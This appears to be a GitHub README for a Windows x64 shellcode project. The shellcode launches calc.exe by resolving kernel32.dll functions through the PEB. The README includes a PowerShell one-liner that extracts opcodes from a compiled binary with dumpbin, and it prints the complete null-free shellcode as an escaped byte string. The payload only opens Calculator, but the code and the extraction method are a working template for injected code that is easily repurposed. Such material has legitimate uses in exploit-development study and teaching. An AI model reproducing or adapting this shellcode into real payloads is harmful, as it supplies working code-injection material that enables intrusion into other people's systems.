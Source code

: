 # Shellcode
Basic shellcodes for popping calc.exe with address resolution via PEB and kernel32.dll.

## Extracting opcodes from assembly

 - Open a terminal from visual studio 
 - **cd** into the build directory (e.g. x64/Release/) and copy-paste the following snippet

 
> foreach (\$i in (dumpbin /section:.text /rawdata:1 .\\NonNullShellcode.exe | Select-String -Pattern ": ([A-F0-9][A-F0-9] )+" -AllMatches | \% {\$\_.matches} | \% {\$\_.value}) -replace ': ', '' -split ' ' | ? {\$\_}) {Write-Host -NoNewline \\x\$i}

##	Null free shellcode
\x48\x8B\xEC\x48\x83\xEC\x40\x48\x33\xC0\x48\x89\x45\xF8\x48\x89\x45\xF0\x48\x89\x45\xE8\x89\x45\xE4\x48\x89\x45\xDC\x48\x89\x45\xD4\x48\x89\x45\xCC\x48\x89\x45\xC4\x48\x33\xDB\x83\xEB\xA0\x67\x65\x48\x8B\x1B\x48\x8B\x5B\x18\  
x48\x8B\x5B\x20\x48\x8B\x1B\x48\x8B\x1B\x48\x8B\x5B\x20\x48\x89\x5D\xF8\x48\xC7\xC3\x57\x69\x6E\x45\x48\x2D\x88\x9A\x9C\xFF\x48\xC1\xE0\x20\x48\x03\xC3\x48\x89\x45\xF0\x48\x33\xC0\x50\x48\xB8\x63\x61\x6C\x63\x2E\x65\x78\x65\x  
50\x48\x89\x65\xC4\x48\x8B\x45\xF8\x8B\x40\x3C\x48\x03\x45\xF8\x48\x33\xDB\x81\xEB\x78\xFF\xFF\xFF\x48\x03\xD8\x8B\x03\x48\x03\x45\xF8\x48\x89\x45\xE8\x48\x83\xC0\x14\x48\x8B\x18\x89\x5D\xE4\x48\x8B\x45\xE8\x48\x83\xC0\x20\x8  
B\x18\x48\x03\x5D\xF8\x48\x89\x5D\xDC\x48\x8B\x45\xE8\x48\x83\xC0\x24\x8B\x18\x48\x03\x5D\xF8\x48\x89\x5D\xD4\x48\x8B\x45\xE8\x48\x83\xC0\x1C\x8B\x18\x48\x03\x5D\xF8\x48\x89\x5D\xCC\x48\x33\xC0\x48\x8D\x75\xF0\x48\x8B\x7D\xDC  
\x8B\x3C\x87\x48\x03\x7D\xF8\x48\x33\xC9\x48\x83\xE9\xF8\xF3\xA6\x74\x0B\x48\xFF\xC0\x48\x3B\x45\xE4\x75\xDD\xEB\x24\x48\x8B\x5D\xD4\x66\x8B\x04\x43\x48\x8B\x5D\xCC\x8B\x04\x83\x48\x03\x45\xF8\x55\x48\x8B\x4D\xC4\x48\x33\xD2\  
x48\xFF\xC2\x48\x83\xEC\x20\xFF\xD0\x48\x8B\xE5\x48\x33\xC0\xC3
